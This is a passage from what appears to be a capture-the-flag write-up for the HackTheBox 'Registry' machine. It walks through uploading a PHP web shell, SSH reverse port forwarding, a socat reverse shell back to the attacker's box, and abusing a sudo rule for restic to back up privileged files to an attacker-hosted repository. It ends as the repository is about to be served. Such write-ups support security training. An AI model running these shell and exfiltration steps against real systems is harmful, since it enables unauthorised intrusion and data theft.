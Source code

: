 We upload [PHPBash](https://github.com/Arrexel/phpbash) to get command execution and try to spawn a proper shell. Nonetheless, doesn't seem to be working because there's a firewall, so we need to forward some ports via SSH:

	root@pentestbox:~# ssh -i id_rsa -R 9119:localhost:9119 bolt@10.10.10.159
	root@pentestbox:~# ssh -i id_rsa -R 9112:localhost:9112 bolt@10.10.10.159

We upload socat with scp:

	root@pentestbox:~# scp -i id_rsa socat bolt@docker.registry.htb:/tmp/socat

Make it executable:

	bolt@bolt:~$ chmod +x /tmp/socat 

and we run:

	www-data@bolt:/var/www/html/bolt/files# /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:localhost:9119

<pre>
root@pentestbox:~# socat file:`tty`,raw,echo=0 tcp-listen:9119
www-data@bolt:~/html/bolt/files$ 
</pre>

## Enumeration

After having had punchs with shells, now we can run some enumeration.
Running

	www-data@bolt:~/html/bolt/files$ sudo -l 

Shows us that:

<pre>
	www-data@bolt:~/html/bolt$ sudo -l
	Matching Defaults entries for www-data on bolt:
	    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User www-data may run the following commands on bolt:
	    (root) NOPASSWD: /usr/bin/restic backup -r rest*
</pre>

Restic is a tool for doing backups into a remote repository supported by rsync. So, we can backup anything we want to a repository that we'll create on our box. To achieve this, we need to forward again a port:

	root@pentestbox:~# ssh -i id_rsa -R 9120:127.0.0.1:9120 bolt@10.10.10.159

In addition, we have to create our restic repository:

	root@pentestbox:~# restic init --repo /tmp/restic-repo                                   
	enter password for new repository: 
	enter password again: 
	created restic repository 3de2e332e9 at /tmp/restic-repo

Via rclone, we serve it:
